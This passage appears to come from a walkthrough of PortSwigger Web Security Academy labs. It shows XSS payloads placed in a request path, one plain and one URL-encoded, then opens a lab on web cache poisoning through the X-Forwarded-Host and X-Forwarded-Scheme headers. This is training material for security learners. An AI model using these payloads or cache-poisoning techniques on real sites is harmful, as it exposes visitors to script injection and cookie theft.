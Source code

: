 
To solve the lab it is necessary to add something random before the payload:

```
GET /random<script>alert(1)</script>
```

```
GET /random%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
```

# 20 - Web cache poisoning with multiple headers

This lab contains a web cache poisoning vulnerability that is only exploitable when you use multiple headers to craft a malicious request. A user visits the home page roughly once a minute. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser.

Hint: This lab supports both the X-Forwarded-Host and X-Forwarded-Scheme headers.

---------------------------------------------

References: 

- https://portswigger.net/web-security/web-cache-poisoning

- https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws





![img](images/20%20-%20Web%20cache%20poisoning%20with%20multiple%20headers/1.png)
